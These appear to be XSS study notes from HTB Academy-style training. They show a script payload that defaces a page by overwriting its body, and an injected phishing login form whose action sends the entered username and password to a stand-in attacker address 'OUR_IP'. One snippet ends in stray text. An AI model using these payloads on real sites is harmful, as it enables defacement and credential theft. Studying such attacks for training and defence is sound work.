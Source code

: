 ```jsx
document.getElementsByTagName('body')[0].innerHTML = "New Text"Vidy
```

## Defacing the body element

**New Body Example**

```html
<center>
    <h1 style="color: white">Cyber Security Training</h1>
    <p style="color: white">by 
        <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy">
    </p>
</center>
```

**XSS Payload**

```jsx
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```

# Phishing

## **Login Form Injection**

### Basic Login Form

```jsx
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
	<input type="username" name="username" placeholder="Username">
	<input type="password" name="password" placeholder="Password">
	<input type="submit" name="submit" value="Login">
</form>
```

### Basic Login Form prepared:

```jsx
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```
